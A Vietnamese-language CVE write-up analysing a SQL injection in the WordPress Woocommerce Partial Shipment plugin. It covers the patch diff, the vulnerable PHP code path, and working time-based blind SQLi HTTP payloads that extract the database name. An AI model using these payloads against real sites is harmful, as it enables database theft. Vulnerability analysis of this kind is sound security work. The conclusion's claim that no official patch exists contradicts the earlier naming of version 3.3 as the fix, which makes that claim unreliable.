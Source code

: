 ```yaml
---
title: CVE-2025-48118 
description: Security Vulnerability in WordPress Woocommerce Partial Shipment Plugin.
date: 2025-09-10 14:54:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, sqli]
---
```


## Introduction
Lỗ hổng xảy ra trên plugin **Woocommerce Partial Shipment** của WordPress trước phiên bản **3.3**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.
- **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)
- **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: <= 3.2
- **CVSS severity**:  High (8.5)
- **Required Privilege**: Subscriber

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Woocommerce Partial Shipment**:  v3.2(vul) và v3.3(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version
- **Actived WooCommerce plugin**: plugin bắt buộc **actived** trước khi cài **Woocommerce Partial Shipment Plugin**, một số hàm trong **WooCommerce** sẽ được sử dụng.

## Analysis
Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế kiểm soát chặt chẽ.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **wc-partial-shipment/woocommerce-partial-shipment.php**

Nhưng ở đây, dev thay đổi khá nhiều ta khó để tìm được vị trí lỗi.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong file **wc-partial-shipment/woocommerce-partial-shipment.php** để tìm sink. 
{: .prompt-tip }

![search sink](assets/img/posts/2025-09-10-CVE-2025-48118/search_sink.png)

`get_shipment_id` và `get_wxp_shipment_data` là 2 hàm thuộc class **WXP_Partial_Shipment** đáng chú ý, dữ liệu được đưa thẳng vào câu query mà không có cơ chế kiểm soát nào. Do đó, lỗ hổng SQLi có thể xảy ra.

![Patch](assets/img/posts/2025-09-10-CVE-2025-48118/patch.png)

Bản vá sử dụng `$wpdb->prepare()` để chuẩn bị câu query, thay vì **nối trực tiếp dữ liệu từ người dùng**. Điều này đảm bảo rằng tất cả giá trị được **escape đúng cách** trước khi chèn vào SQL, ngăn ngừa nguy cơ SQL Injection.

### How it work?
`get_shipment_id` và `get_wxp_shipment_data` đều được hàm `wxp_order_set_shipped` trong cùng class gọi và sử dụng.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
```

👉 `order_id` được lấy từ **POST request**, nơi người dùng có thể kiểm soát làm đối số khi gọi hàm `get_shipment_id` và `get_wxp_shipment_data`
truyền vào câu query chứa lổ hỗng SQLi.

Để xác định nơi `wxp_order_set_shipped` được gọi và sử dụng, ta tìm kiếm với từ khóa `wxp_order_set_shipped` trong thư mục chứa plugin.

![Search 1](assets/img/posts/2025-09-10-CVE-2025-48118/search_1.png)

`wxp_order_set_shipped` được `construct` của cùng class sử dụng làm callback cho hook `wp_ajax_wxp_order_set_shipped` => yêu cầu người dùng phải đăng nhập

👉 Khi truy cập vào `/wp-admin/admin-ajax.php` với tham số:

```
action=wxp_order_set_shipped&order_id=payload_here
```

- Callback `wxp_order_set_shipped` được gọi 
- `order_id` được lấy trực tiếp từ request và chèn vào SQL query.
- Query thực thi 2 lần do được truyền vào 2 hàm chạy lệnh SQL với payload độc hại.

## Exploit
### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Ở đây có 2 nơi thực hiện query nên thời gian phản hồi sẽ tăng gấp đôi

![time response](assets/img/posts/2025-09-10-CVE-2025-48118/time_resp.png)

Ta sử dụng **subquery trong mệnh đề FROM** vì truy vấn con được coi như một bảng tạm thời. MySQL sẽ thực thi truy vấn con trước để tạo bảng tạm, sau đó mới thực hiện truy vấn chính. Khi so sánh theo từng row, `SLEEP` chỉ chạy một lần trong quá trình khởi tạo bảng tạm, các lần so sánh tiếp theo sẽ không thực thi lại, nhờ đó tránh việc `SLEEP` bị nhân nhiều lần.

Ví dụ khi gửi request với payload này:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

Thời gian trả về tăng theo cấp số nhân

![search 2](assets/img/posts/2025-09-10-CVE-2025-48118/search_2.png)

### Get First Letter of Database Name
Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `order_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-10-CVE-2025-48118/script.py)

## Conclusion
Lỗ hổng **CVE-2025-48118** trong plugin WordPress **Woocommerce Partial Shipment** trước phiên bản **3.3**, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)